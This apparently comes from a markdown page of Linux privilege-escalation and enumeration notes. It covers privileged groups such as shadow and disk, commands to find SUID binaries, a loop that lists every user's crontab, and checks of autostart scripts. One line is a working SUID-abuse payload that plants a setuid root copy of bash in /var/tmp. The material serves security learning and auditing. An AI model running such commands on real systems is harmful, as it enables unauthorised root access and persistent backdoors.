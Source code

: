 

Identifying Groups

In Linux systems, certain groups grant specific privileges that attackers may target to escalate their privileges. Some important Linux groups that might be of interest to an attacker include:

- **sudo** or **wheel**: Members of the sudo (or wheel) group have the authority to execute commands with elevated privileges using sudo.
- **adm**: The adm group typically has read access to system log files.
- **shadow**: The shadow group is related to managing user authentication and password information. With this membership, a user can read the `/etc/shadow` file, which contains the password hashes of all users on the system.
- **disk**: Members of the disk group have almost unrestricted read and limited write access inside the system.

```
getent group adm
```
#getent 



```
find / -perm -u=s -type f 2>/dev/null

```

```
/usr/bin/python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p", "-c", "cp /bin/bash /var/tmp
/bash && chown root:root /var/tmp/bash && chmod +s /var/tmp/bash")'
```


```
sudo debsums -e -s
```

```
strings example.elf
```

```
find / -perm -u=s -type f 2>/dev/null
```


		 one liner to search for all crontabs user level
```
sudo bash -c 'for user in $(cut -f1 -d: /etc/passwd); do entries=$(crontab -u $user -l 2>/dev/null | grep -v "^#"); if [ -n "$entries" ]; then echo "$user: Crontab entry found!"; echo "$entries"; echo; fi; done'
```
#crontab 


Enumerating User Autostart Scripts

```
ls -a /home/*/.config/autostart
```

Listing All System Services
